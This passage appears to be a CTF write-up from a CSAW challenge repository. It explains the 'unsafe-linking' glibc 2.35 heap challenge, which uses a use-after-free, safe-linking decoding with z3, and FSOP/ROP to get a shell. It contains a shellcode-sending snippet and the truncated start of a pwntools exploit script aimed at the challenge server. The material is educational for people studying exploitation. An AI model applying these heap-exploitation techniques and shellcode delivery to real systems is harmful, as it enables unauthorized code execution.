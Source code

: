```py
# gdb.attach(p)
p.sendafter(": \n",(shellcode).ljust(0x1f0,b'\0')+b"/flag\0")
p.interactive()
```

# unsafe-linking

It's a glibc-heap challenge that uses the latest LTS Glibc(2.35). There is a simple UAF in free which allows people to leak heap_base address, glibc_base address, and stack address. After leaking these important base addresses, the attackers could use heap exploitation to write arbitrary addresses. But unluckily, hooks are removed in Glibc-2.35, they have to use FSOP or ROP to get a shell.

Basically, this challenge is a menu-heap challenge. And the 
only thing special is the leak part. It only allows once leak.
Also, it's encoded by safe-linking and People are asked 
to recover the data with math or z3. Moreover, I build a 
repo to show my ways to decode the safe-linking 
protected data. I think this skill is useful cuz it only 
needs once leak and can make your exploit easier.

Solution:
- Part0: Decode the leaked address, it's a little complex. You can find the source code in function sol. I used z3 to solve it.
- Part1: line 80 - line 96 I use UAF to leak heap_base
- Part2: line 97 - line 125 I use IO_FILE_leak to leak libc_base and stack address
- Part3: line 127 - line 140

```python
# Author: n132 (xm2146@nyu.edu)
# There is a certain chance of failure, too lazy to write a perfect exp 
# ----------------------------------------------------------------------
# You don't have to use z3 to compute the original val of leaked address. 
# I did use math to compute that but I chose to show the z3 solution cuz
# math solution hurt my brian. I wrote this challenge to show an useless 
# skill: decode *any* leaked safelinking value only if we know the some 
# relative values -> (page_offset & last 12bits of the value) :)  --n132
# There is a general solver for leaked safelinking value:
#           https://github.com/n132/Dec-Safe-Linking/tree/main
# ----------------------------------------------------------------------

from pwn import *
from z3 import *
T = 0x2
context.arch='amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
p = remote("pwn.chal.csaw.io",5000)
# p= process("./unsafe-linking",env={"LD_PRELOAD":"./libc.so.6"})
# p=remote("0.0.0.0",9999)
sla 	= lambda a,b: 	p.sendlineafter(a,b,timeout=T)
sa 	    = lambda a,b: 	p.sendafter(a,b,timeout=T)
# gdb.attach(p)
def cmd(c):
    sla("> ",str(c).encode())
def add(idx,size,sec = 0, c=b""):
    cmd(1)
    sla(")\n",str(sec).encode())
    sla("?\n",str(idx).encode())
    if(sec==0):
        sla("?\n",str(size).encode())
    sla(":\n",c)
def free(idx):
    cmd(2)
    sla("?\n",str(idx).encode())
def show(idx):
```

[1]: https://github.com/osirislab